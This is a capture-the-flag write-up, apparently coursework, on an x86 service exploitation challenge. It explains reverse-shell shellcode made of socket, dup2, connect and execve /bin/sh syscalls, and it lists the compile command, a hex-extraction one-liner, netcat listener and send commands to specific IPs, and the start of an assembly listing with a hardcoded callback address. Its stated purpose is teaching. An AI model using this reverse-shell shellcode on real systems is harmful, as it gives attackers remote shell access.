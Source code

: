 


# Problem 3. CTF 1: ShellEval

## Problem 3.a: x86 service exploitation
* By referring and analyzing ``shellcode.py`` in [supplied github link](https://github.com/sangkilc/shelleval), shellcode has been created by converting the hex resulting from an assembly that consists of the following functional steps:
    1. Make a socket with arguments of ``SOCK_STREAM`` and ``AF_INET`` using socket syscall, ``0x66`` (or 102 in decimal).
    2. Redirect ``stdout``, ``stdin``, and ``stderr`` to socket's file descriptor using dup2 syscall, ``0x3f`` (or 63 in decimal).
    3. connect to socket with designated ip and port address using sock syscall, ``0x66`` (or 102 in decimal).
    4. execute ``/bin/sh`` using excve syscall, ``0xb`` (or 11 in decimal).
* flag: ``SKCTF{y0u_5p4wn3d_4_x86_5h3ll}``
* assembly file: ``/src/problem_3/problem3a.s``
* compile command:
```
gcc -nostdlib -g -m32 problem3a.s -o problem3a
```
* steps for explotation:
    1. compile ``problem3a.s``
    2. retrieve hex for the ``problem3a``
    3. print retrieved hex with python script command, ``./hex2binary_x86.py > payload``
    4. starting listening form local machine, ``nc -lvnp 55555``
    5. send exploit shellcode to server, ``nc 143.248.38.212 30000 < payload``

### ``problem3a.s`` code
* code snippet
```
.intel_syntax noprefix

.section .text
.global _start

######## MY ADDRESS INFO ######## (tester3.kaist.ac.kr)
## IP: 143.248.136.13
## PORT: 55555
#################################

######## MY ADDRESS INFO in HEX ########
## IP: "\x8f\xf8\x88\x0d"
## PORT: "\xd9\x03"
########################################

# nc 143.248.38.212 30000 < payload
# gcc -nostdlib -g -m32 p3_a.s -o p3_a

# cmd to get hex from executable
# objdump -d problem3a | grep '[0-9a-f]:' | grep -oP '\s\K([0-9a-f]{2} )+' | tr -d ' \n' | sed 's/\(..\)/\\x\1/g'

# cmd to execute in local machine
# nc -lvnp 55555

# flag: SKCTF{y0u_5p4wn3d_4_x86_5h3ll}

_start: 
    # Set up the destination IP address (143.248.136.13 in hex: 0x8ff8880d).
    push   0xd88f88f
    pop    esi
```